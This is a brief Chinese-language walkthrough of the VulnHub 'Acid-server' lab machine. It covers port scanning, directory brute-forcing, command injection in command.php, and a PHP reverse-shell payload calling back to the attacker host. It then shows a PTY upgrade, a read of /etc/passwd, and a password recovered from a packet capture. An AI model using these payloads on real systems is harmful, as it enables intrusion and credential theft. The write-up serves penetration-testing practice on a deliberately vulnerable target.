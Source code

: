 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http  
`$ sudo nmap -sP 172.16.71.0/24`  
`$ sudo nmap -p1-65535 -sV 172.16.71.208`

利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box，掃/Magic_Box，發現command.php  
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell，監聽3333port  
`$ nc -l 3333`  
用php反彈shell成功，最後payload:  
`172.16.71.1; php-r '$sock=fsockopen("172.16.71.1",4444);exec("/bin/sh-i<&3 >&3 2>&3");'`  

發現su指令無法執行，出現錯誤訊息su:must be run from a terminal，用python調用本地shell  
`$ python -c 'import pty;pty.spawn("/bin/bash")'`  
查找用戶，發現三個可疑帳號acid、saman、root，嘗試找尋用戶的可疑文件  
`$ cat /etc/passwd`  
`$ find -user acid 2>/dev/null`  
發現pcapng可疑流量檔案，下載回本地查看  

利用wireshark打開hint.pcapng，找到saman密碼1337hax0r  
利用find找到flag.txt，成功！
